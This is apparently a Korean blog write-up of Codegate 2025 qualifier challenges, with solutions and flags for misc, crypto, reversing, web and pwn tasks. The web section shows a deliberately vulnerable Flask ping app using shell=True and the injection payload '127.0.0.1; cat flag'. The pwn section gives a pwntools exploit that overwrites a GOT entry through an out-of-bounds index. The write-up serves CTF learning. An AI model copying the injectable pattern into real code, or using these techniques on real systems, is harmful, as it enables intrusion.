





## Codegate 2025 Quals
--- 



Codegate 2025 Quals에 참가해서 17위로 본선에 진출했다. 예선 당일 다른 일도 있었고 본선에 참가할 수 있을 거라고 생각하지 못하고 있었는데 각 분야별로 제일 쉬운 문제 재밌게 풀어보니 최종 17위에 안착되어 있었다. 수상과 상관없이 본선에서 새로운 경험을 쌓는 것이 목표이다.

## MISC
---

### Hello Codegate



디스코드 공지 채널에서 플래그를 구할 수 있다.

:::note[FLAG]
codegate2025{65782695e16255e3ef8517a1bfb059f0}
:::

### Captcha World



Captcha를 구현한 문제이다. 10번 통과하면 플래그를 주겠다고 하는데 각 스테이지 별 제한시간이 10초로 넉넉하므로 그냥 손으로 입력하면 플래그를 구할 수 있다.

:::note[FLAG]
codegate2025{33dd91779386bf1f41677b1841cd3e67396c95db0b<br>914d980ce27ca6f9ec89f4c6e35066231e9ed90c66edb4825d96}
:::

## WEB
---

### ping tester



웹을 제대로 공부해본 적이 없어 CTF에서 웹 문제를 잘 건드리지 않는 편인데 간단한 `Command Injection` 문제가 있어서 풀이하였다. 일단 접속하면 위와 같이 입력한 주소에 `ping` 명령어를 사용하는 것을 볼 수 있다.

<br>

```python frame='code' title='app.py'
from flask import Flask, request, render_template
import subprocess

app = Flask(__name__)

@app.route('/', methods=['GET'])
def execute():
    return render_template('index.html')

@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')
    if ip:
        result = subprocess.run(f"ping -c 3 {ip}", shell=True, capture_output=True, text=True)
        return render_template('ping.html', result=result.stdout)
    else:
        return render_template('ping.html', message="Please provide IP address.")

if __name__ == '__main__':
    app.run('0.0.0.0', port=5000, debug=True)
```

문제 파일을 다운로드 받으면 주어지는 `app.py` 파일이다. `ip`를 입력받고 이를 `ping` 명령어와 붙여 실행하는데 입력값에 대한 별도의 검증이 존재하지 않는다. 따라서 `;`, `|` 등의 다중명령어를 통해서 `ping` 명령어 이외의 다른 명령어를 함께 실행시킬 수 있다.



따라서 `127.0.0.1; cat flag`와 같이 입력해주면 플래그를 구할 수 있다.

:::note[FLAG]
codegate2025{80fd12690c4d31a8cf3fe2865e3ceb99aca9e6047c6acb2cbb9157e26ec91f4b}
:::

## CRYPTO
---

### Encrypted flag

```python frame='code' title='prob.py'
from Crypto.Util.number import bytes_to_long, getPrime
from sympy import nextprime
import gmpy2

p = getPrime(512)
q = nextprime(p)

n = p * q
e = 65537

flag = "codegate2025{FAKE_FLAG}"
phi = (p - 1) * (q - 1)

d = gmpy2.invert(e, phi)

m = bytes_to_long(flag.encode())
c = pow(m, e, n)

print(f"n: {n}")
print(f"e: {e}")
print("Encrypted flag:", c)
```

```sh title='output.txt'
n : 54756668623799501273661800933882720939597900879404357288428999230135977601404008182853528728891571108755011292680747299434740465591780820742049958146587060456010412555357258580332452401727868163734930952912198058084689974208638547280827744839358100210581026805806202017050750775163530268755846782825700533559
e : 65537
Encrypted flag : 7728462678531582833823897705285786444161591728459008932472145620845644046450565339835113761143563943610957661838221298240392904711373063097593852621109599751303613112679036572669474191827826084312984251873831287143585154570193022386338846894677372327190250188401045072251858178782348567776180411588467032159
```

문제 파일을 다운로드 받으면 `prob.py`와 `output.txt`가 주어진다. `prob.py` 파일을 보면 `RSA`를 통해 플래그를 암호화하고 있는데 `p`값을 임의의 소수로 결정한 다음 `q`값을 `p` 다음의 소수로 결정하고 있는 것을 볼 수 있다. 이렇게 `p`값과 `q`값이 가까우면 `n`을 쉽게 인수분해할 수 있기 때문에 취약하다.

<br>

```python frame='code' title='ex.py'
from sympy import prevprime
from Crypto.Util.number import long_to_bytes
import gmpy2

n = 54756668623799501273661800933882720939597900879404357288428999230135977601404008182853528728891571108755011292680747299434740465591780820742049958146587060456010412555357258580332452401727868163734930952912198058084689974208638547280827744839358100210581026805806202017050750775163530268755846782825700533559
e = 65537
c = 7728462678531582833823897705285786444161591728459008932472145620845644046450565339835113761143563943610957661838221298240392904711373063097593852621109599751303613112679036572669474191827826084312984251873831287143585154570193022386338846894677372327190250188401045072251858178782348567776180411588467032159

approx_p = int(gmpy2.isqrt(n))

p = prevprime(approx_p)
q = gmpy2.next_prime(p)

phi = (p - 1) * (q - 1)

d = gmpy2.invert(e, phi)

m = pow(c, d, n)
print(long_to_bytes(m))
```

따라서 위와 같은 코드를 통해 원래의 플래그를 복호화할 수 있다.

:::note[FLAG]
codegate2025{Cl0se_p_q_0f_RSA_Is_Vu1n3rabIe}
:::

## PWN
---

### What's Happening

```zsh
╭─tuplest@BOOK-8JHQNP0CQB ~/Hack/ctf/CODEGATE2025/happen/deploy
╰─$ ./prob
Planet Distance Calculator v1.0
1. Update Info
2. Print Info
3. Exit
>
```

문제 파일을 다운로드 받은 후 실행시켜 보면 위와 같이 행성 정보에 대해 수정하고 출력하는 등의 작업을 수행할 수 있다는 것을 알 수 있다.

```c frame='code' title='prob'
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  int v4; // r8d
  int v5; // r9d
  int v6[2]; // [rsp+18h] [rbp-68h] BYREF
  int v7[2]; // [rsp+20h] [rbp-60h]
  char *v8; // [rsp+28h] [rbp-58h]
  char s[8]; // [rsp+30h] [rbp-50h] BYREF
  __int64 v10; // [rsp+50h] [rbp-30h] BYREF
  int v11[2]; // [rsp+60h] [rbp-20h] BYREF
  unsigned __int64 v12; // [rsp+68h] [rbp-18h]

  v12 = __readfsqword(0x28u);
  init(argc, argv, envp);
  *(_QWORD *)v7 = &objects;
  init_solar_system(&objects);
  puts("Planet Distance Calculator v1.0");
  while ( 1 )
  {
    menu();
    v3 = prompt();
    if ( v3 == 3 )
      break;
    if ( v3 <= 3 )
    {
      if ( v3 == 1 )
      {
        printf("Enter planet index to update (0-12): ");
        __isoc99_scanf("%ld", v6);
        printf("Enter planet name: ");
        getchar();
        if ( fgets(s, 32, stdin) )
        {
          v8 = strchr(s, 10);
          if ( v8 )
            *v8 = 0;
        }
        printf("Enter AU value: ");
        __isoc99_scanf("%lf", &v10);
        printf("Enter color (0-10): ");
        __isoc99_scanf("%d", &v11[1]);
        update(v7[0], v6[0], v7[0], v11[0], v4, v5, s[0]);
      }
      else if ( v3 == 2 )
      {
        print_solar_system(*(_QWORD *)v7);
      }
    }
  }
  _exit(0);
}
```

`ida`를 통해 `prob` 파일을 디컴파일하면 위와 같은데 1번 메뉴를 선택하였을 때, 행성의 인덱스를 비롯하여 여러 값들을 입력받고 그에 따라 업데이트하는 것을 볼 수 있다. 이 때 인덱스 입력 과정에서 별도의 검증 코드가 존재하지 않기 때문에 `OOB` 취약점이 발생한다.

```c frame='code' title='prob'
void *__fastcall update(__int64 a1, __int64 a2, int a3, int a4, int a5, int a6, char src)
{
  return memcpy((void *)(56 * a2 + a1), &src, 0x38uLL);
}
```

업데이트 함수는 위와 같이 작성되어 있는데 여기서 `a1`은 `objects`라는 전역 변수의 주소이다. 해당 문제의 `prob` 파일에는 `Partial RELRO`와 `No PIE (0x400000)`이기 때문에 해당 전역 변수로 부터 `got`의 오프셋을 구하여 `got overwrite`를 수행할 수 있다.

```python frame='code' title='ex.py'
from pwn import *

p = process('./prob')
# p = remote('3.37.174.221', 33333)
e = ELF('./prob')

pay = p64(e.symbols['win']) + p64(0x0000000000401080) * 2

p.sendlineafter('> ', b'1')

p.sendlineafter(': ', b'-3')
p.sendlineafter(': ', pay)

p.sendlineafter(': ', b'0')
p.sendlineafter(': ', b'0')

print(hex(e.symbols['system']).encode())

p.interactive()
```

주의할 점은 `memcpy` 함수가 덮는 영역 전체를 고려하여야 한다. 원치 않는 값도 함께 덮이는 것을 생각하고 페이로드를 구성해야 한다. 위와 같이 익스플로잇 코드를 작성하여 플래그를 구할 수 있다.

:::note[FLAG]
codegate2025{d23a6bf6e5c63246e91dfe1d5a954b1d2616bad9dbe41d85a975fe333723f<br>5090d23ae3cf0ac9309ab5d25a83019be4f3a707288}
:::

## REV
---

### initial

```c frame='code' title='prob'
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+8h] [rbp-38h]
  int k; // [rsp+Ch] [rbp-34h]
  char s[31]; // [rsp+10h] [rbp-30h] BYREF
  char v8; // [rsp+2Fh] [rbp-11h]
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  __isoc99_scanf("%32s", s);
  if ( strlen(s) == 32 )
  {
    for ( i = 0; i <= 30; ++i )
      s[i] ^= s[i + 1];
    v8 ^= s[0];
    for ( j = 0; j <= 31; ++j )
      s[j] = sub_11A9(byte_4020[(unsigned __int8)s[j]], j & 6);
    for ( k = 0; k <= 31; ++k )
    {
      if ( s[k] != byte_4120[k] )
      {
        puts("Wrong!");
        return 0LL;
      }
    }
    puts("Correct!");
    return 0LL;
  }
  else
  {
    puts("Wrong length");
    return 1LL;
  }
}
```

```c frame='code' title='prob'
__int64 __fastcall sub_11A9(unsigned __int8 a1, char a2)
{
  return (unsigned __int8)((a1 << (8 - a2)) | ((int)a1 >> a2));
}
```

파일을 다운받으면 위와 같은 코드의 `prob` 파일이 주어진다. 문자열 `s`를 입력받아 길이가 32인지를 검증한 후 다음 인덱스 값으로 `xor` 연산을 수행하고, `sub_11A9()` 함수로 구현된 `ROR`을 통해 값을 수정한다.  
이 후 수정된 값을 `byte_4120`과 비교하는데 `xor` 연산과 `ROR` 연산 모두 역연산이 가능하므로 `byte_4120` 값을 역연산하여 플래그를 구할 수 있다.  
이 때 유의할 점은 변수 `v8`인데 이는 `ida`의 부정확한 디컴파일과 ~~아마 고의로~~ 크기를 잘못 설정한 문자열 `s`의 탓으로 `v8`은 문자열 `s`의 마지막 값으로 보아야 한다.

```python frame='code' title='ex.py'
ans = list(bytes.fromhex('36 E2 2E 86 6D 24 CD 94 1A 1A 46 9B 49 83 61 15 20 B2 47 EA 0D 42 E9 3D E4 74 1B 16 8B 54 2E AA'))
t = list(bytes.fromhex('45 B8 1A 80 47 CB D6 19 1D 58 56 E2 36 E4 27 65 B1 73 E9 5C 7E 42 7C DE 71 61 F6 48 F5 22 57 1B AF DB 8D 8B C0 2B D4 A1 CC F2 EB BE 37 38 D9 1E 63 E3 4D 94 13 BA 9C 86 10 35 FC 4F D7 D3 7B 3A C9 8F D0 24 F1 05 2C 53 5E 8C 96 3D A6 A4 6E CF 5B 6D 04 ED 12 7A 17 25 34 DC AD E1 20 91 75 06 C4 74 6F 78 00 6C C2 AB A9 9F B0 16 33 90 CD B2 3C AA 9B 51 4E 3F 1C 50 FA 18 E8 B4 54 B9 3B 49 F9 B6 99 9D 7D 0E 66 EF FF 15 97 55 0F F8 21 2E 83 F3 95 0A A8 BC 5D B5 32 FD F7 D8 26 89 64 2F A7 CA 0D EC C3 FB AC B7 09 EE 84 92 79 01 07 A2 77 4A 02 60 39 A0 93 BD 88 C6 E5 E7 CE 23 BB DF 85 C1 59 EA D2 9A E6 31 14 FE C5 44 11 87 67 D1 4B DA 6A 52 BF 0B F4 5A 8A 08 28 A3 7F 30 70 9E 2D 0C 82 AE 40 68 43 76 E0 3E 8E 2A 4C A5 D5 69 72 C8 81 6B 46 C7 B3 1F 5F 98 29 F0 62 03 DD 41'))

def rol(n, c):
    return ((n << c) & 0xFF) | ((n & 0xFF) >> (8 - c))


for i in range(32):
    ans[i] = rol(ans[i], i & 6)
    ans[i] = t.index(ans[i])

for i in range(31, -1, -1):
    ans[i] ^= ans[(i + 1) & 31]
    
print(''.join([chr(i) for i in ans]))
```

위 사항들을 유의하여 파이썬으로 역연산 코드를 작성하면 위와 같고 실행을 통해 플래그를 구할 수 있다.

:::note[FLAG]
codegate2025{Hell0\_W0r1d\_R3V\_^^}
:::

### C0D3Matr1x

```c frame='code' title='prob'
// bad sp value at call has been detected, the output may be wrong!
__int64 __fastcall main(int rdi0, char **a2, char **rdx0)
{
  __int64 v3; // rcx
  __int64 v4; // rax
  int cnt; // eax
  int c; // [rsp+0h] [rbp-4BE8h]
  int i; // [rsp+4h] [rbp-4BE4h]
  int j; // [rsp+8h] [rbp-4BE0h]
  int k; // [rsp+Ch] [rbp-4BDCh]
  int m; // [rsp+10h] [rbp-4BD8h]
  int n; // [rsp+14h] [rbp-4BD4h]
  int ii; // [rsp+18h] [rbp-4BD0h]
  int jj; // [rsp+1Ch] [rbp-4BCCh]
  int kk; // [rsp+20h] [rbp-4BC8h]
  int mm; // [rsp+24h] [rbp-4BC4h]
  int nn; // [rsp+28h] [rbp-4BC0h]
  int i1; // [rsp+2Ch] [rbp-4BBCh]
  int v19[24][24]; // [rsp+38h] [rbp-4BB0h] BYREF
  int v20[24][24]; // [rsp+938h] [rbp-42B0h] BYREF
  int v21[24][24]; // [rsp+1238h] [rbp-39B0h] BYREF
  int v22[24][24]; // [rsp+1B38h] [rbp-30B0h] BYREF
  int a1[24][24]; // [rsp+2438h] [rbp-27B0h] BYREF
  int a3[24][24]; // [rsp+2D38h] [rbp-1EB0h] BYREF
  int v25[24][24]; // [rsp+3638h] [rbp-15B0h] BYREF
  int input_mat[26][26]; // [rsp+3F38h] [rbp-CB0h] BYREF
  char v27[32]; // [rsp+49C8h] [rbp-220h] BYREF
  char input[496]; // [rsp+49E8h] [rbp-200h] BYREF
  int v29; // [rsp+4BD8h] [rbp-10h]
  unsigned __int64 v30; // [rsp+4BE0h] [rbp-8h]

  while ( &v25[15][4] != &v20[7][4] )
    ;
  v30 = __readfsqword(0x28u);
  setlocale(6, &locale);
  memset(input_mat, 0, sizeof(input_mat));
  memset(v19, 0, sizeof(v19));
  memset(v20, 0, sizeof(v20));
  memset(v21, 0, sizeof(v21));
  memset(v22, 0, sizeof(v22));
  memset(a1, 0, sizeof(a1));
  memset(a3, 0, sizeof(a3));
  memset(v25, 0, sizeof(v25));
  memset(input, 0, sizeof(input));
  v29 = 0;
  c = 0;
  for ( i = 0; i <= 11; ++i )
  {
    if ( (i & 1) != 0 )
    {
      v19[23 - i][i] = 1;
      v3 = 23 - i;
      v4 = 24LL * i;
    }
    else
    {
      v19[0][25 * i] = 1;
      v3 = 23 - i;
      v4 = 24 * v3;
    }
    v19[0][v3 + v4] = 1;
  }
  __isoc99_scanf("%484[^\n]", input);
  for ( j = 2; j <= 23; ++j )
  {
    for ( k = 2; k <= 23; ++k )
    {
      cnt = c++;
      input_mat[j][k] = input[cnt];
    }
  }
  for ( m = 1; m <= 24; ++m )
  {
    for ( n = 1; n <= 24; ++n )
    {
      if ( !input_mat[m][n] )
        input_mat[m][n] = aC0d3gat3[(n - 1 + m - 1) % 8];
    }
  }
  sum33(input_mat, v20);
  unclock(v20);
  mul(v20, v19, v21);
  mul(v19, v21, v20);
  clock(v20);
  plus1(v20, t1, v22);
  mul(v22, t2, a1);
  plus2(a1, arr1, a3);
  plus2(a1, arr2, v25);
  for ( ii = 0; ii <= 23; ++ii )
  {
    for ( jj = 0; jj <= 23; ++jj )
    {
      if ( a3[ii][jj] != res[ii][jj] )
      {
        puts("Wrong");
        return 0LL;
      }
    }
  }
  system("clear");
  wprintf("\n");
  for ( kk = 0; kk <= 23; ++kk )
  {
    for ( mm = 0; mm <= 23; ++mm )
      wprintf("%", dword_55B5A8872020[a3[kk][mm] - 1]);
    for ( nn = 0; nn <= 23; ++nn )
      wprintf("%", dword_55B5A8872020[v25[kk][nn] - 1]);
    wprintf("\n");
  }
  wprintf("\n");
  sub_55B5A8870ACA(input, v27);
  wprintf(U"FLAG: codegate2025{");
  for ( i1 = 0; i1 <= 31; ++i1 )
    wprintf(U"%02x", v27[i1]);
  wprintf(U"}\n");
  return 0LL;
}
```

위는 문제 파일을 다운로드 받고 `ida`로 디컴파일하여 함수를 보기 편하도록 이름을 바꿔준 상태이다. 484글자를 입력 받아 이를 이차원 배열을 통해 행렬 형태로 저장한다.  
이후 이러한 행렬을 통해 연산을 수행하는데 이는 다음과 같다.

1. 27 * 27 행렬에 복사해온 뒤 값이 존재하지 않는 곳에 특정 문자를 삽입한다.
2. 3 * 3에 존재하는 값들을 더해 다시 24 * 24 행렬로 축소시킨다. - **sum33()**
3. 행렬을 반시계 방향으로 회전시킨다. - **unclock()**
4. 두 행렬을 곱한다. - **mul()**
5. 두 행렬을 곱한다. - **mul()**
6. 행렬을 시계 방향으로 회전시킨다. - **clock()**
7. 두 행렬을 더한다. - **plus1()**
8. 두 행렬을 곱한다. - **mul()**
9. 두 행렬을 더한다. - **plus2()**
10. 두 행렬을 더한다. - **plus2()**

이러한 연산을 수행한 결과의 행렬을 어떠한 임의의 행렬과 비교하므로 마지막 비교값의 행렬을 역연산하여 원래의 행렬을 구하면 플래그를 구할 수 있다.  
행렬과 관련된 연산은 `sagemath`에 편리하게 구현이 되어있으므로 이를 활용하여 파이썬 코드를 작성, 역연산해주었다.

```python frame='code' title='ex.py'
# sage 및 pwntools 임포트
from sage.all import *
from pwn import *

# 초기 선언
e = ELF('./prob')
F = Zmod(0xffff)

# 필요 함수 선언
def pack(data):
    result = []
    for i in range(0, len(data), 4):
        chunk = data[i:i+4]
        value = (chunk[0] & 0xFF) | ((chunk[1] & 0xFF) << 8) | ((chunk[2] & 0xFF) << 16) | ((chunk[3] & 0xFF) << 24)
        result.append(value)
    return result

def rotate_clock(matrix):
    size = matrix.nrows()
    rotated = Matrix(F, size, size)
    
    for i in range(size):
        for j in range(size):
            rotated[j, size - 1 - i] = matrix[i, j]
    
    return rotated

# 필요 데이터 파싱 및 수정
res = pack(list(e.read(0x5620, 24 * 24 * 4)))
arr1 = pack(list(e.read(0x3B20, 24 * 24 * 4)))
t1 = pack(list(e.read(0x3220, 24 * 24 * 4)))
t2 = pack(list(e.read(0x4D20, 24 * 24 * 4)))

for i in range(len(arr1)):
    if arr1[i] >= 0x80000000:
        arr1[i] -= 0x100000000

M_res = Matrix(F, 24, 24, res)
M_arr = Matrix(F, 24, 24, arr1)
M_t1 = Matrix(F, 24, 24, t1)
M_t2 = Matrix(F, 24, 24, t2)

# plus2 역연산
v23 = M_res - M_arr

# mul 역연산
inv_t2 = M_t2.inverse()
v22 = v23 * inv_t2

# plus1 역연산
v20 = v22 - M_t1

# clock 역연산
v20 = rotate_clock(v20)
v20 = rotate_clock(v20)
v20 = rotate_clock(v20)

# v19 초기화 mul 역연산
v19 = [0 for _ in range(24 * 24)]
for i in range(12):
    if i & 1 != 0:
        v19[(23 - i) * 24 + i] = 1
        v3 = 23 - i
        v4 = 24 * i
    else:
        v19[25 * i] = 1
        v3 = 23 - i
        v4 = 24 * v3
    v19[v3 + v4] = 1
v19 = Matrix(F, 24, 24, v19)
v21 = v19.inverse() * v20

# mul 역연산
v20 = v21 * v19.inverse()

#unclock 역연산
v20 = rotate_clock(v20)

# 26 * 26 행렬 생성
l = [[0 for i in range(26)] for _ in range(26)]
cnt = 0
for i in range(2, 24):
    for j in range(2, 24):
        l[i][j] = 1
        
# 0인 요소 치환
txt = "C0D3GAT3"
for i in range(1, 25):
    for j in range(1, 25):
        if l[i][j] == 0:
            l[i][j] = ord(txt[(j - 1 + i - 1) % 8])

# sum33 역연산
arr = l.copy()
# print(Matrix(F, 26, 26, l))
for i in range(0, 24):
    for j in range(0, 24):
        sum_val = arr[i][j] + arr[i+1][j] + arr[i+2][j] + \
                  arr[i][j+1] + arr[i][j+2] + arr[i+1][j+1] + \
                  arr[i+2][j+1] + arr[i+1][j+2]
        msg = v20[i][j] - sum_val
        arr[i+2][j+2] = msg
# print(Matrix(F, 26, 26, arr))    

# flag 출력
for i in range(2, 24):
    for j in range(2, 24):
        print(chr(arr[i][j]), end = '')
```

```sh frame='terminal'
C0DEGATE 1s a gl0ba1 internationa1 hacking d3f3ns3 competition and 5ecurity conference. Held annually since 2008, C0D3GAT3 is known as the Olympics for hackers, wh3re hack3rs and security 3xperts from around the world gath3r t0 c0mpet3 for the title of the w0rld's best hack3r. In addition to fierce competition among tru3 white-hat hackers, a juni0r division is also he1d, s3rv1ng as a p1atform f0r discover1ng talented 1ndividuals 1n th3 fi3ld of cyb3rsecurity. You are good hacker.
```

역연산 코드를 실행하면 위와 같은 문자열을 구할 수 있고 이를 바이너리를 실행한 후 입력하면 아름다운 이미지와 함께 플래그를 구할 수 있다.

<br>

```sh frame='terminal'

                      ·£C
                     Ì0££0½
                   ¼00VVV0££{
                 >0000£uÌ£0£0ͪ
               /Y0£V£ò   ’£00£0Í›
              0£0V0Í·      ÷0VV£V±
           ¨   30V0£V¡    r00V£Vs ¨n
          Ïù    ¸£V0££±~{£00VY@  @Y00s
        @ù2ù      ‹0£££££000±  ¢0£0V00£c
      ‡ùùùùw        ÷££0V£V‘ ƒ0Y00V£Y£000>
    i22ù2©I    öv     7ÍV¯ /££000£   00£££Í÷
  ~ùùù2çÌ      òçü?
   £™ü2ùù¸     öù0        ÂÂÂWWÂWWWWWWWÂWWWÂW
    …©222ùY´   u…     Â}    WWWWWWWWWWWWÂWQ
      ³©™2ùù        QÂÂ×     ¨€AÕWWWÂWÕŠÕ
        «©ùç      GWWWW×         âWWWh
          ìw    aWWWWÂÛ          GWWWr
              ƒÂWÂWWþ   €WWWWWWA GWú
              gWWWWWƒ   €WWWWWWA t
               ¨NQWWWW|   ÂWWWWD
                 —WWWWWWWWWWWQ
                   ¤WWWWWWÂÂ…
                     4WWWW‹
                       $7

FLAG: codegate2025{de955b80b49fcf6922e7313778fb72d3644721b19c467f95c671b527b14d97f2}
```
원래 더 이쁘게 나오는데 폰트 이슈로 인해 찌그러졌다..

:::note[FLAG]
codegate2025{de955b80b49fcf6922e7313778fb72d3644721b19c467f95c671b527b14d97f2}
:::

## Comment
---

리버싱 문제 중 C0D3Matr1x가 당연히 선형방정식 풀이 문제일 거라고 예상했었는데 행렬의 합, 곱 등 기본적인 연산 문제여서 인상 깊었다. 또한 각 분야별로 제일 쉬운 문제만 골라서 푸니 이렇게까지 CTF가 재밌다는 것을 처음으로 알았다. 운좋게 본선에 가게 되었으니 좋은 경험 갖고 오도록 노력해야겠다.